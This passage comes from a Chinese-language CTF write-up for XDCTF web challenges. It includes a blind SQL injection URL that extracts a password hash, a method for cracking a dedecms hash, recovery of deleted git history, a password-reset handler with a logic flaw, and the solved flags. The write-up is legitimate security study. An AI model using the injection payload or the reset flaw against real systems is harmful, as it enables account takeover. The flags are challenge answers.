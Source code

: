 ```
http://133.130.90.172//47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%225832f4251cb6f43917df1%25
False
```
password = 5832f4251cb6f43917df

21位密码 想到了dedecms加密方式 去掉前3后1
```
恭喜，该密文已被SOMD5解密~!

明文:lu5631209
```

######flag XDCTF{e0a345cadaba033073d88d2cc5dce2f7} 

###WEB2-200
根据提示 github 被删除的代码 想到了rip-git.pl和git reset
![](./4.png)
恢复了最初的版本 获取到源码
cat index.php 获取flag

######flag XDCTF-{raGWvWahqZjww4RdHN90}

###WEB2-100
根据提示 前台逻辑漏洞 所以定位到了front_app/controllers/Auth.php文件
```
 public function handle_resetpwd()
    {
        if(empty($_GET["email"]) || empty($_GET["verify"])) {
            $this->error("Bad request", site_url("auth/forgetpwd"));
        }
        $user = $this->user->get_user(I("get.email"), "email");
        if(I('get.verify') != $user['verify']) {
            $this->error("Your verify code is error", site_url('auth/forgetpwd'));
        }
        if($this->input->method() == "post") {
            $password = I("post.password");
            if(!$this->confirm_password($password)) {
                $this->error("Confirm password error");
            }
            if(!$this->complex_password($password)) {
                $this->error("Password must have at least one alpha and one number");
            }
            if(strlen($password) < 8) {
                $this->error("The Password field must be at least 8 characters in length");
            }
            $this->user->update_userinfo([
                "password" => $password,
                "verify" => null
            ], $user["uid"]);
            $this->success("Password update successful!", site_url("auth/login"));
        } else {
            $url = site_url("auth/resetpwd") . "?email={$user['email']}&verify={$user['verify']}";
            $this->view("resetpwd.html", ["form_url" => $url]);
        }
    }
```